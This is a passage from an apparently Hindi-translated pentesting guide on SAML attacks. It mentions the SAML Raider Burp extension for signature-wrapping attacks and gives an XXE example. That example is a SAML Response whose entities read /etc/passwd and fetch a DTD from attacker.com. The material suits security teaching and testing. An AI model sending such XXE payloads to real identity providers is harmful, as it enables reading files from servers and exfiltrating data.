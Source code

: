 ### उपकरण

आप अनुरोध को पार्स करने, किसी भी XSW हमले को चुनने और उसे लॉन्च करने के लिए Burp एक्सटेंशन [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) का उपयोग कर सकते हैं।

![](<../../.gitbook/assets/image (546).png>)

### मूल पेपर

इस हमले के बारे में अधिक जानकारी के लिए मूल पेपर पढ़ें [https://www.usenix.org/system/files/conference/usenixsecurity12/sec12-final91.pdf](https://www.usenix.org/system/files/conference/usenixsecurity12/sec12-final91.pdf)

## XXE

यदि आपको नहीं पता कि XXE किस प्रकार के हमले हैं, तो कृपया निम्नलिखित पृष्ठ पढ़ें:

{% content-ref url="../xxe-xee-xml-external-entity.md" %}
[xxe-xee-xml-external-entity.md](../xxe-xee-xml-external-entity.md)
{% endcontent-ref %}

इस तथ्य के कारण कि SAML Responses डिफ्लेटेड और base64’d **XML दस्तावेज़** होते हैं, हम SAML Response के रूप में भेजे गए XML दस्तावेज़ को मैनिपुलेट करके **XXE** के लिए परीक्षण कर सकते हैं। उदाहरण:
```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY    file SYSTEM "file:///etc/passwd">
<!ENTITY dtd SYSTEM "http://www.attacker.com/text.dtd" >]>
<samlp:Response ... ID="_df55c0bb940c687810b436395cf81760bb2e6a92f2" ...>
<saml:Issuer>...</saml:Issuer>
<ds:Signature ...>
<ds:SignedInfo>
<ds:CanonicalizationMethod .../>
<ds:SignatureMethod .../>
<ds:Reference URI="#_df55c0bb940c687810b436395cf81760bb2e6a92f2">...</ds:Reference>
</ds:SignedInfo>
<ds:SignatureValue>...</ds:SignatureValue>
```